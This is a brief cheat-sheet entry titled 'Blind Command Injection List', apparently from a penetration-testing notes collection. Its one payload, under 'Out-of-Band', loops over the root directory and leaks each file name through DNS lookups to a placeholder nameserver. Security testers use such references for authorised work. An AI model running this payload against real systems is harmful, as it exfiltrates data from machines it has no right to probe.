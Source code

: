 # Blind Command Injection List

Search Tag: #helpers #command-injection

## Out-of-Band

```
for file in $(ls /); do host "$file.<dns_nameserver_IP>"; done
```